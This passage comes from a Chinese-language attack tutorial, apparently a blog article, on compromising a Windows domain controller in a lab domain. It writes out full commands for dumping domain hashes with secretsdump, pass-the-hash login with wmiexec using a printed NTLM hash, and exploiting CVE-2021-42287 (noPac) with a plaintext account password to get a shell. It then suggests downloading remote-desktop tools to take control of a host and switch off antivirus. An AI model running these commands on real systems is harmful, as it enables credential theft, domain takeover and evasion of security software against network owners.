 使用imp套件工具  
  
“域控/主机名@域控ip”  
  
python secretsdump.py "god.org/owa2010cn-god$@192.168.3.21" -no-pass  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2ia6DfO70P8RPFdXcsSBJsTvUOMxGorQmdwevQjYRiciaWiaQBMQQhwyHCg/640?wx_fmt=png&from=appmsg "")  
  
将内容复制出来，使用刚才回显的哈希密码连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2GW3KwHSqrt4j8Hib2tVGHamcaKRvT1ibAmaG9B2rtOSnhwkrXTy8lBhg/640?wx_fmt=png&from=appmsg "")  
  
python wmiexec.py -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2dS51b7rdTicGL7OM6op6hqhTxQUs3wUu8gwoJFribyPmX8vlPoDLowyg/640?wx_fmt=png&from=appmsg "")  
  
**5.3.2 CVE-2021-42287**  
  
前提条件：一个域内普通账号（需要明文密码），相对于刚才的漏洞多了一个条件  
  
影响版本：Windows基本全系列  
  
只能打域  
  
****  
**先通过提权抓取明文密码**  
  
god.org/webadmin:admin!@#45（域名/获取到的域用户账号/域用户密码） 192.168.3.21为目标ip  
  
python.exe scanner.py -use-ldap "god.org/webadmin:admin!@#45" -dc-ip 192.168.3.21  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2OT2vOIr0nwkKicDkwybL5yYq5xRy6mxiaCBEFNoEibv87sSotIxczFcRQ/640?wx_fmt=png&from=appmsg "")  
  
**再执行命令，成功获取权限**  
  
**python.exe noPac.py -use-ldap "god.org/webadmin:admin!@#45" -dc-ip 192.168.3.21 -shell**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicpicXGT3hZlbG0spxxgTibk2gtrubjhxJAvT0RdRA0ncPl1udF0RZE5CSdCQ5iaCRCpJMc1Kvs3b3rg/640?wx_fmt=png&from=appmsg "")  
  
**6、补充**  
  
**远控工具可以使用rustdesk，gotohttp，通过远程连接到桌面，关闭杀软也可以的。**  
  
**以国外服务器演示，这台服务器存在df杀软**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85Pjfml9UqHPzB1oVLdDT78Yibd4Avib7MlB2eR0wAsaA5fZxeTtRK5bGsJ6ibjA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85Pjfmlp1TnEBUib8ib0Xc7P3Vcyic0CKMWndkBJt4WmzUMUADIdZrcVWUm82uuw/640?wx_fmt=png&from=appmsg "")  
  
**可通过命令远程下载gotohttp后运行**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlUrG6b1uZmRzw5iaibEoZAZHCUoMYFxlEAp2RDobybZKNtFyxp80ibLOaQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1UibicQWvqdkHRkHc3wc85PjfmlP3TTNcPib9CoAJSKt5ftbGPsZvN5YHa1oaLshlxQtGn6vekV0dic83UQ/640?wx_fmt=png&from=appmsg "")  
  
运行后生成  
gotohttp.ini，查看  
文件信息，直接连接即可  
  